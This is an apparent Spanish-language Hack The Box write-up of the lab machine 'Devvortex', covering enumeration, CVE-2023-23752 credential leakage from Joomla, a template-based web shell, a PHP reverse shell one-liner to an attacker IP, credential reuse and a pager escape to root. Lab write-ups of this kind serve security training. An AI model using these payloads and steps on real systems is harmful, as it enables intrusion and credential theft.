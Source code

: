 ```yaml
---
layout: post
title: Devvortex
date: 2023-12-04 13:09 +0100
img_path: /assets/img/
---
```


![Devvortex](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Devvortex.png)

Devvortex es una máquina Linux con la que practicaremos enumeración web y virtual hosting. Al utilizar Joomla, practicaremos cómo podemos obtener ejecución remota de comandos una vez que accedemos al panel de administración. También se hace uso de la vulnerabilidad CVE-2023-23752 para obtener información sensible, como usuarios y contraseñas.

## 🔍 **ENUMERACIÓN**

Realizamos un nmap para conocer todos los puertos abiertos de la máquina.

```
nmap -p- -open -sS --min-rate 5000 -n -vvv -Pn 10.129.54.199 -oG allPorts
```

Una vez finalizado el escaneo, observamos que los únicos puertos abiertos son el 22 y el 80.

![Pasted image 20231202182800.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182800.png)

A continuación, realizamos un escaneo más exhaustivo de dichos puertos para conocer la versión y servicio que utilizan. Observamos que el puerto 80 redirige a la dirección `[http://devvortex.htb](http://devvortex.htb)`, así que lo añadimos al archivo `/etc/hosts`

![Pasted image 20231202182158.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182158.png)

```
nmap -p22,80 -sCV 10.129.54.199 -oN targeted
```

![Pasted image 20231202182309.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182309.png)

### Puerto 80

![Pasted image 20231203131930.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203131930.png)

Comenzamos analizando las tecnologías que utiliza con la herramienta `whatweb`.

![Pasted image 20231203133456.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133456.png)

Observamos que utiliza `nginx 1.18.0`, pero no encontramos ninguna vulnerabilidad. Realizamos un escaneo de directorios con la herramienta `gobuster`.

```
gobuster dir -u http://devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -o devvortex.htb.dirs -f
```

![Pasted image 20231203133401.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133401.png)

No encontramos nada interesante, así que probamos a ver si utiliza *virtual hosting.* Para ello, utilizamos `gobuster`.

```
gobuster vhost --append-domain -u http://devvortex.htb/ -t 50 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o devvortex.vhosts
```

![Pasted image 20231203133909.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133909.png)

Encontramos un subdominio: `dev.devvortex.htb`. Para poder acceder a él, lo añadimos al archivo `/etc/hosts`.

![Pasted image 20231203175102.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203175102.png)

### dev.devvortex.htb

![Pasted image 20231203134046.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203134046.png)

Realizamos un escaneo de directorios del nuevo subdominio con `gobuster`.

```
gobuster dir -u http://dev.devvortex.htb/ -f -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200 -o dev.devvortex.htb.dirs
```

![Pasted image 20231203135832.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135832.png)

Encontramos un directorio interesante: `/administrator/`. Si accedemos a él, podemos observar que se trata de un panel de autenticación de `joomla`. 

![Pasted image 20231203135901.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135901.png)

Podemos utilizar la herramienta `joomscan` para poder saber más.

```
joomscan -u http://dev.devvortex.htb
```

![Pasted image 20231203143507.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203143507.png)

Gracias a `joomscan`, obtenemos que la versión utilizada de `joomla` es la `4.2.6`. Buscando por internet, encontramos que puede ser vulnerable a ***CVE-2023-23752.***

## 💥 **EXPLOTACIÓN**

[https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script](https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script)

Utilizando el siguiente exploit, podemos extraer información valiosa de la base de datos utilizada por `joomla`.

![Pasted image 20231203144317.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144317.png)

Observamos que tenemos dos usuarios: **lewis** y **logan**. Además, tenemos la contraseña de lewis: `P4ntherg0t1n5r3c0n##`. Si probamos a utilizar las credenciales a través de SSH, no vamos a tener exito, pero podemos acceder a través del panel de autenticación de `joomla`.

![Pasted image 20231203144756.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144756.png)

Una vez que tenemos acceso al panel de administración, podemos obtener un **RCE** para utilizar una reverse shell. Para ello nos dirigimos a la pestaña system, Administrator Templates, seleccionamos la template atum, y editamos el archivo `error.php`.

![Pasted image 20231203162659.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162659.png)

Si accedemos desde el navegador, podemos ejecutar comandos.

```
http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=id
```

![Pasted image 20231203162950.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162950.png)

Para conseguir enviarnos una reverse shell a través del **RCE**, utilizamos el siguiente **payload**.

```php
php -r '$sock=fsockopen("10.10.16.24",443);exec("sh <&3 >&3 2>&3");'
```

Nos ponemos en escucha con `netcat` para recibir la reverse shell.

![Pasted image 20231203163410.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203163410.png)

Una vez dentro, el único usuario disponible es **logan**, pero no tenemos las credenciales para poder conectarnos. Como anteriormente obtuvimos las credenciales de la base de datos de `joomla`, podemos utilizarlas para obtener las credenciales de **logan**.

```
mysql -u lewis -pP4ntherg0t1n5r3c0n##
use joomla;
select username,password from sd4fg_users;
```

![Pasted image 20231203165325.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165325.png)

Guardamos la clave encriptada de logan para poder crackearla con john.

![Pasted image 20231203165304.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165304.png)

Una vez obtenida la contraseña de logan, podemos conectarnos a través de ssh.

![Pasted image 20231203165429.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165429.png)

Una vez dentro, ya podemos ver la flag de `user.txt`. que está situada en `/home/logan/user.txt`.

## 🔐 **ESCALADA DE PRIVILEGIOS**

Si realizamos un `sudo -l` para ver los commandos que podemos ejecutar como `root` nos encontramos lo siguiente.

![Pasted image 20231203172027.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172027.png)

Si lo ejecutamos para ver algún crasheo que se haya producido, podemos elevar privilegios, ya que para mostrar el reporte utiliza una funcionalidad de pager como `less`.

![Pasted image 20231203172109.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172109.png)

Seleccionamos la opción V para ver el reporte y cuando nos muestre el reporte ejecutamos `!bash` y obtendremos una shell como `root`.

![Pasted image 20231203172221.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172221.png)

Una vez que tenemos acceso como `root`, podemos obtener la flag en `/root/root.txt`.